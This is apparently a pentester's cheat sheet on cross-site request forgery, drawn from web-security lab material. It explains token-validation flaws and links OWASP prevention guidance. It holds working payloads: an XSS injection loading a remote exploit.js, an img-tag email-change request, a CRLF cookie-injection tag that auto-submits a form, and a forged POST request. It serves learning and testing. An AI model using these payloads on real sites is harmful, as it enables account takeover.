 `CSRF` attacks may utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the `JavaScript` `CSRF` payload), the `JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

```html
"><script src=//www.example.com/exploit.js></script>
```

##### Prevention
https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html

##### Deliver
GET:
`<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">`

POST: dedicated html page with form and JS for auto submit. In #bupr RMB on request, engagement tools, create CSRF POC.

## Common flaws in CSRF token validation
##### Validation of CSRF token depends on request method
Try to change request method to `GET` and any other.

##### Validation of CSRF token depends on token being present
Some apps skip the token validation if it is omitted.

#### CSRF token is not tied to the user session
Attacker can log in to the app, obtain a valid token and feed that token to the victim in their CSRF attack.

#### CSRF token is tied to a non-session cookie
```html
...
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

#### CSRF where token is duplicated in cookie
```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

In this situation, the attacker can again perform a CSRF attack if the website contains any cookie setting functionality. Here, the attacker doesn't need to obtain a valid token of their own. They simply invent a token (perhaps in the required format, if that is being checked), leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.a